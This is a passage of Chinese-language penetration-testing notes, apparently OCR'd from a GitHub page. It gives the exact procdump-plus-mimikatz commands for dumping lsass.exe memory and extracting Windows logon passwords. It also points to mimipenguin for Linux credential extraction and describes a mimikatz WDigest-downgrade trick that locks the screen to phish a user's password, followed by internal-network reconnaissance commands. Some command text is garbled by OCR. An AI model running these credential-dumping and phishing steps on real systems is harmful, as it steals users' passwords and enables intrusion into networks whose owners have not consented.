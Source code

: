 - procdump+mimikatz
  使用 procdump 将 lsass.exe 的内存 dump 下来, 再使用 mimikatz 从内存文件中读取密码.

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPass    words full" exit
```

## 4.2 mimipenguin

[项目地址](https://github.com/huntergregal/mimipenguin)

直接执行即可, 但是需要 root 权限

## 4.3 Invoke-MimikatzWdigestDowngrade

自 KB2871997 更新之后, 无法使用 mimikatz 获取明文密码, 这个时候可以使用[Invoke-MimikatzWdigestDowngrade](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1)钓鱼获取用户密码

- 执行 Invoke-MimikatzWdigestDowngrade，此时主机进入锁屏状态
- 当用户输入账号密码登录后，执行 Get-Job 抓取密文密码

# 内网信息搜集

## 搜集本机信息

## ·**查询网络配置**

## `ipconfig /all`

## ·**查询操作系统及软件信息**

## `systeminfo |findstr /B /C:"OS NAME" /C:"OS version`

## `systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"`

## ·**查询操作系统体系结构**

## `echo %PROCESSOR_ARCHITECTURE%`

## ·**查看安装的软件版本，路径**

## `wmic product get name,version`

## powershell 命令
